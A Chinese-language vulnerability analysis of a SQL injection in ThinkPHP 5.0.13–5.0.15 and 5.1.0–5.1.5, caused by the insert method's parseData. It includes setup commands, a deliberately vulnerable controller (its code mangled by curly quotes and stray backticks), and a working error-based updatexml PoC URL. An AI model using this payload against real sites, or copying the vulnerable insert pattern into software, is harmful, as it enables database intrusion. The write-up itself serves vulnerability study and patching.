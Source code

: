 ```yaml
---
title: 5.1.0 <= Thinkphp <= 5.1.5 sql注入漏洞
id: zhfly3166
---
```


# 5.0.13 <= Thinkphp <= 5.0.15 & 5.1.0 <= Thinkphp <= 5.1.5

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert** 方法注入）。本次漏洞存在于 **Builder** 类的 **parseData** 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生。

## 二、漏洞影响

**5.0.13<=ThinkPHP<=5.0.15** 、 **5.1.0<=ThinkPHP<=5.1.5** 。

## 三、复现过程

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.0.15 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.15"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->insert([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **application/database.php** 文件中配置数据库相关信息，并开启 **application/config.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
); 
```

### poc

```
http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/037ce33eedef07ea33ba24661df49e12.png)

### 漏洞分析

![2.png](../img/a8726ae41d82d0040db0dfba745fa726.png)

首先在官方发布的 **5.0.16** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](../img/6e61d6ac1065c908972ec2997bb1a021.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，代码如下：

![4.png](../img/a7ba6b5a5c541fd1ef80d37df51239b5.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的 **$this->builder->insert()** 最终调用的是 **Builder** 类的 **insert** 方法。在 **insert** 方法中，我们看到其调用 **parseData** 方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据 **$val** 进行了拼接返回。我们的恶意数据存储在 **$val[1]** 中，虽经过了 **parseKey** 方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](../img/4663617b6d170576a2db0c90ee9e6917.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的 **insert** 方法，直接通过替换字符串的方式，将 **$data** 填充到 **SQL** 语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](../img/f02df8f90e0a4ce8504b21e83c006457.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch** 结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察 **ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec** 进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP** 内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格** ，这也是为什么 **ThinkPHP** 官方没有对 **exp** 的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](../img/82bafba85780bf87311d9cf36d164555.png)

### 漏洞修复

![8.png](../img/7124cc7f69d4b82df0a00d676a3728c6.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](../img/c2ccbf2fb0267ed7c940515c7a7aecf8.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln